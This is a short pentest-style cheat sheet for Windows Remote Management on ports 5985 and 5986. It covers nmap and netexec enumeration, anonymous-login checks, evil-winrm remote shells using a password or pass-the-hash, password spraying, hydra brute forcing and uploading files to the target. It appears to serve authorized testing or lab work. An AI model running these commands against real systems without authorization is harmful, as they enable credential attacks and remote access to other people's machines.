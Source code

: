 # WinRM Enumeration (5985, 5986)

## Run nmap WinRM scripts
```bash
nmap -p 5985,5986 --script=winrm-info $IP
```

## Check WinRM service ports
```bash
nmap -p 5985,5986 $IP
```

## Test WinRM with netexec
```bash
netexec winrm $IP
```

## Test anonymous access with netexec
```bash
netexec winrm $IP -u '' -p ''
```

## Connect with evil-winrm
```bash
# -p password for password auth OR -H ntlm_hash for pass-the-hash
evil-winrm -i $IP -u administrator -p password
```

## Connect with evil-winrm over SSL
```bash
evil-winrm -i $IP -u administrator -p password -S
```

## Password spray with netexec
```bash
netexec winrm $IP -u users.txt -p 'Password123!' --continue-on-success
```

## Brute force with hydra
```bash
hydra -L users.txt -P passwords.txt -t 1 -V $IP winrm
```

## Upload file with evil-winrm
```bash
upload /local/path/file.exe C:\temp\file.exe
```
